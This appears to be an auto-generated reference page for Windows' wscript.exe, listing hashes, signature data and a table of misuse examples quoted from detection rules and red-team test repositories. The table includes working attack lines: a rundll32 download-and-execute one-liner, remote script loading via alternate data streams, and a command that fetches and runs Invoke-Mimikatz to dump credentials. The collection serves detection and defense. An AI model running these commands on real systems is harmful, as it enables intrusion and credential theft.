


---
title: wscript.exe | Microsoft  Windows Based Script Host
excerpt: What is wscript.exe?
---

# wscript.exe 

* File Path: `C:\Windows\system32\wscript.exe`
* Description: Microsoft  Windows Based Script Host

## Screenshot





## Hashes

Type | Hash
-- | --
MD5 | `0639B0A6F69B3265C1E42227D650B7D1`
SHA1 | `545EC11DEE642DE633EB2C6F6FFC90CCE4DECF8D`
SHA256 | `CE9F70E104C07D92FC05FBD6000839FD6A87FF010E706396F87DD679244ED97B`
SHA384 | `BBB058996AD1F6209658DE1DD20258BE8BFABBE897AA223655B364CF4CB99A943FA4DA9E45C5681311BDDE434AD08D06`
SHA512 | `4504E1F26D83AA4F23AD4DF55034AD6A0292DB33234CAC660A6A617DC7CEBC78B99312933AF83F1633C0A991FFE798C8B7755523569E3CE3966A115DDDD8306A`
SSDEEP | `3072:03dUXpcpsc9NrGoRd27i3NJVjU2Qw4+WUZxtt:03cpcpVfjj27i97eb+nZh`
IMP | `0F71D5F6F4CBB935CE1B09754102419C`
PESHA1 | `EE6F4E20F6275BE3700BB7E99E7408ACD8B4CC32`
PE256 | `B9AC2057A05D02862AD083976A638D42DA4E4A0B99CC58A5C9E92FA7BDD27D88`

## Runtime Data

### Window Title:
Windows Script Host

### Open Handles:

Path | Type
-- | --
(R-D)   C:\Windows\Fonts\StaticCache.dat | File
(R-D)   C:\Windows\System32\en-US\wscript.exe.mui | File
(RW-)   C:\Users\user\Documents | File
\BaseNamedObjects\NLS_CodePage_1252_3_2_0_0 | Section
\BaseNamedObjects\NLS_CodePage_437_3_2_0_0 | Section
\Sessions\1\Windows\Theme1703657751 | Section
\Windows\Theme1455388728 | Section


### Loaded Modules:

Path |
-- |
C:\Windows\System32\ADVAPI32.dll |
C:\Windows\System32\combase.dll |
C:\Windows\System32\GDI32.dll |
C:\Windows\System32\gdi32full.dll |
C:\Windows\System32\KERNEL32.DLL |
C:\Windows\System32\KERNELBASE.dll |
C:\Windows\System32\msvcp_win.dll |
C:\Windows\System32\msvcrt.dll |
C:\Windows\SYSTEM32\ntdll.dll |
C:\Windows\System32\OLE32.dll |
C:\Windows\System32\OLEAUT32.dll |
C:\Windows\System32\RPCRT4.dll |
C:\Windows\System32\sechost.dll |
C:\Windows\System32\ucrtbase.dll |
C:\Windows\System32\USER32.dll |
C:\Windows\system32\VERSION.dll |
C:\Windows\System32\win32u.dll |
C:\Windows\system32\wscript.exe |


## Signature

* Status: Signature verified.
* Serial: `3300000266BD1580EFA75CD6D3000000000266`
* Thumbprint: `A4341B9FD50FB9964283220A36A1EF6F6FAA7840`
* Issuer: CN=Microsoft Windows Production PCA 2011, O=Microsoft Corporation, L=Redmond, S=Washington, C=US
* Subject: CN=Microsoft Windows, O=Microsoft Corporation, L=Redmond, S=Washington, C=US

## File Metadata

* Original Filename: wscript.exe.mui
* Product Name: Microsoft  Windows Script Host
* Company Name: Microsoft Corporation
* File Version: 5.812.10240.16384
* Product Version: 5.812.10240.16384
* Language: English (United States)
* Legal Copyright:  Microsoft Corporation. All rights reserved.
* Machine Type: 64-bit

## File Scan

* VirusTotal Detections: 0/67
* VirusTotal Link: https://www.virustotal.com/gui/file/ce9f70e104c07d92fc05fbd6000839fd6a87ff010e706396f87dd679244ed97b/detection/


## Possible Misuse

*The following table contains possible examples of `wscript.exe` being misused. While `wscript.exe` is **not** inherently malicious, its legitimate functionality can by abused for malicious purposes.*

Source | Source File | Example | License
-- | -- | -- | --
[sigma](https://github.com/Neo23x0/sigma) | [godmode_sigma_rule.yml](https://github.com/Neo23x0/sigma/blob/master/other/godmode_sigma_rule.yml) | `- '\wscript.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [godmode_sigma_rule.yml](https://github.com/Neo23x0/sigma/blob/master/other/godmode_sigma_rule.yml) | `- 'wscript'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_suspicious_dbghelp_dbgcore_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_suspicious_dbghelp_dbgcore_load.yml) | `- '\wscript.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_apt_cloudhopper.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_apt_cloudhopper.yml) | `description: Detects suspicious file execution by wscript and cscript` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_html_help_spawn.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_html_help_spawn.yml) | `- '\wscript.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_malware_formbook.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_malware_formbook.yml) | `# e.g. wscript.exe /B sysmon-install.vbs` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_malware_qbot.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_malware_qbot.yml) | `Image: '*\wscript.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_malware_script_dropper.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_malware_script_dropper.yml) | `title: WScript or CScript Dropper` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_malware_script_dropper.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_malware_script_dropper.yml) | `description: Detects wscript/cscript executions of scripts located in user directories` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_malware_script_dropper.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_malware_script_dropper.yml) | `- '*\wscript.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_mmc_spawn_shell.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_mmc_spawn_shell.yml) | `- '*\wscript.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_mshta_spawn_shell.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_mshta_spawn_shell.yml) | `- '*\wscript.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_multiple_suspicious_cli.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_multiple_suspicious_cli.yml) | `- wscript.exe` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_office_shell.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_office_shell.yml) | `- '*\wscript.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_renamed_binary.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_renamed_binary.yml) | `- 'wscript.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_renamed_binary.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_renamed_binary.yml) | `- '\wscript.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_renamed_binary_highly_relevant.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_renamed_binary_highly_relevant.yml) | `- "wscript.exe"` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_renamed_binary_highly_relevant.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_renamed_binary_highly_relevant.yml) | `- '*\wscript.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_shell_spawn_susp_program.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_shell_spawn_susp_program.yml) | `- '*\wscript.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_csc.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_csc.yml) | `- '*\wscript.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_powershell_parent_combo.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_powershell_parent_combo.yml) | `- '*\wscript.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_regsvr32_anomalies.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_regsvr32_anomalies.yml) | `Image: '*\wscript.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_script_execution.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_script_execution.yml) | `description: Detects suspicious file execution by wscript and cscript` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_script_execution.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_script_execution.yml) | `- '\wscript.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_task_folder_evasion.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_task_folder_evasion.yml) | `description: The Tasks folder in system32 and syswow64 are globally writable paths. Adversaries can take advantage of this and load or influence any script hosts or ANY .NET Application in Tasks to load and execute a custom assembly into cscript, wscript, regsvr32, mshta, eventvwr` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_run_key_img_folder.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/registry_event/sysmon_susp_run_key_img_folder.yml) | `- 'wscript*'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_cactustorch.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/sysmon/sysmon_cactustorch.yml) | `- '*\System32\wscript.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_suspicious_remote_thread.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/sysmon/sysmon_suspicious_remote_thread.yml) | `- '\wscript.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_wmi_susp_scripting.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/sysmon/sysmon_wmi_susp_scripting.yml) | `- '*WScript.shell*'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Testxlst.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/LOLUtilz/OtherScripts/Testxlst.yml) | `- Command: wscript testxlst.js C:\test\test.xml c:\test\test.xls c:\test\test.out` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Rundll32.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Rundll32.yml) | `- Command: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Rundll32.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Rundll32.yml) | `- Command: rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Rundll32.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Rundll32.yml) | `- Command: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Wscript.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Wscript.yml) | `Name: Wscript.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Wscript.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Wscript.yml) | `- Command: wscript c:\ads\file.txt:script.vbs` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Wscript.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Wscript.yml) | `- Command: echo GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js") > %temp%\test.txt:hi.js && wscript.exe %temp%\test.txt:hi.js` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Wscript.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Wscript.yml) | `- Path: C:\Windows\System32\wscript.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Wscript.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Wscript.yml) | `- Path: C:\Windows\SysWOW64\wscript.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Wscript.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Wscript.yml) | `- IOC: Wscript.exe executing code from alternate data streams` | 
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [hta.md](https://github.com/redcanaryco/atomic-red-team/blob/master/ARTifacts/Initial_Access/hta.md) | var r = new ActiveXObject("WScript.Shell").Run("calc.exe"); | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/index.md) | - Atomic Test #4: Masquerading - wscript.exe running as svchost.exe [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [windows-index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/windows-index.md) | - Atomic Test #4: Masquerading - wscript.exe running as svchost.exe [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1036.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1036.003/T1036.003.md) | - [Atomic Test #4 - Masquerading - wscript.exe running as svchost.exe](#atomic-test-4---masquerading---wscriptexe-running-as-svchostexe) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1036.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1036.003/T1036.003.md) | ## Atomic Test #4 - Masquerading - wscript.exe running as svchost.exe | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1036.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1036.003/T1036.003.md) | Copies wscript.exe, renames it, and launches it to masquerade as an instance of svchost.exe. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1036.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1036.003/T1036.003.md) | Upon execution, no windows will remain open but wscript will have been renamed to svchost and ran out of the temp folder | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1036.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1036.003/T1036.003.md) | copy %SystemRoot%\System32\wscript.exe %APPDATA%\svchost.exe /Y | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1059.001.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1059.001/T1059.001.md) | $url='https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1';$wshell=New-Object -ComObject WScript.Shell;$reg='HKCU:\Software\Microsoft\Notepad';$app='Notepad';$props=(Get-ItemProperty $reg);[Void][System.Reflection.Assembly]::LoadWithPartialName('System.Windows.Forms');@(@('iWindowPosY',([String]([System.Windows.Forms.Screen]::AllScreens)).Split('}')[0].Split('=')[5]),@('StatusBar',0))\|ForEach{SP $reg (Item Variable:_).Value[0] (Variable _).Value[1]};$curpid=$wshell.Exec($app).ProcessID;While(!($title=GPS\|?{(Item Variable:_).Value.id-ieq$curpid}\|ForEach{(Variable _).Value.MainWindowTitle})){Start-Sleep -Milliseconds 500};While(!$wshell.AppActivate($title)){Start-Sleep -Milliseconds 500};$wshell.SendKeys('^o');Start-Sleep -Milliseconds 500;@($url,(' '*1000),'~')\|ForEach{$wshell.SendKeys((Variable _).Value)};$res=$Null;While($res.Length -lt 2){[Windows.Forms.Clipboard]::Clear();@('^a','^c')\|ForEach{$wshell.SendKeys((Item Variable:_).Value)};Start-Sleep -Milliseconds 500;$res=([Windows.Forms.Clipboard]::GetText())};[Windows.Forms.Clipboard]::Clear();@('%f','x')\|ForEach{$wshell.SendKeys((Variable _).Value)};If(GPS\|?{(Item Variable:_).Value.id-ieq$curpid}){@('{TAB}','~')\|ForEach{$wshell.SendKeys((Item Variable:_).Value)}};@('iWindowPosDY','iWindowPosDX','iWindowPosY','iWindowPosX','StatusBar')\|ForEach{SP $reg (Item Variable:_).Value $props.((Variable _).Value)};IEX($res);invoke-mimikatz -dumpcr | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1105.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1105/T1105.md) | echo var fileObject = WScript.createobject("Scripting.FileSystemObject");var newfile = fileObject.CreateTextFile("AtomicTestFileT1105.js", true);newfile.WriteLine("This is an atomic red team test file for T1105. It simulates how OSTap worms accross network shares and drives.");newfile.Close(); > AtomicTestT1105.js | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1204.002.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1204.002/T1204.002.md) | This Test uses a VBA macro to create and execute #{jse_path} with cscript.exe. Upon execution, the .jse file launches wscript.exe. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1204.002.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1204.002/T1204.002.md) | $macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"cscript.exe #{jse_path}`"`n" | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1204.002.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1204.002/T1204.002.md) | echo var url = "#{file_url}", fso = WScript.CreateObject('Scripting.FileSystemObject'), request, stream; request = WScript.CreateObject('MSXML2.ServerXMLHTTP'); request.open('GET', url, false); request.send(); if (request.status === 200) {stream = WScript.CreateObject('ADODB.Stream'); stream.Open(); stream.Type = 1; stream.Write(request.responseBody); stream.Position = 0; stream.SaveToFile(filename, 1); stream.Close();} else {WScript.Quit(1);}WScript.Quit(0); > #{script_file} | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1204.002.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1204.002/T1204.002.md) | Malicious JavaScript executing CMD which spawns wscript.exe //e:jscript | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1204.002.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1204.002/T1204.002.md) | \| jse_path \| jse file to execute with wscript \| Path \| C:&#92;Users&#92;Public&#92;art.jse\| | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1204.002.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1204.002/T1204.002.md) | $macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   a = Shell(`"cmd.exe /c wscript.exe //E:jscript #{jse_path}`", vbNormalFocus)`n" | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.005.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.005/T1218.005.md) | mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -noexit -file PathToAtomicsFolder\T1218.005\src\powershell.ps1"":close") | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.011.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.011/T1218.011.md) | rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("#{command_to_execute}"),0) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1547.009.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1547.009/T1547.009.md) | $Shell = New-Object -ComObject ("WScript.Shell") | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1566.001.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1566.001/T1566.001.md) | $macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n" | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_apt19.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_apt19.yar) | // wscript | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_apt19.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_apt19.yar) | $wsobj1 = "Set Obj = CreateObject(\"WScript.Shell\")" ascii wide | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_apt34.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_apt34.yar) | $x2 = ".bat&ping 127.0.0.1 -n 6 > nul&wscript  /b" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_apt34.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_apt34.yar) | $x2 = "\"wscript.shell`\")`nShell0.run" wide | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_blackenergy.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_blackenergy.yar) | $s2 = "Set WshShell = CreateObject(\"WScript.Shell\")" fullword ascii /* Goodware String - occured 1 times */ | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_fin7.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_fin7.yar) | $s2 = "wscript.exe //b /e:jscript %TEMP%" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_fin7.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_fin7.yar) | $s5 = " & wscript //b /e:jscript" | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_fin7_backdoor.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_fin7_backdoor.yar) | $x1 = "wscript.exe //b /e:jscript C:\\Users\\" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_fin7_backdoor.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_fin7_backdoor.yar) | $x2 = "wscript.exe /b /e:jscript C:\\Users\\" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_fin7_backdoor.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_fin7_backdoor.yar) | $x3 = "schtasks /Create /f /tn \"GoogleUpdateTaskMachineSystem\" /tr \"wscript.exe" ascii nocase | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_fin7_backdoor.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_fin7_backdoor.yar) | $x6 = "wscript.exe //b /e:jscript %TMP%\\debug.txt" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_freemilk.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_freemilk.yar) | $s2 = "'Wscript.echo \"Base64 encoded: \" + base64Encoded" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_freemilk.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_freemilk.yar) | $s5 = "set shell = WScript.CreateObject(\"WScript.Shell\")" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_khrat.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_khrat.yar) | $x1 = "CreateObject(\"WScript.Shell\").Run \"schtasks /create /sc MINUTE /tn" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
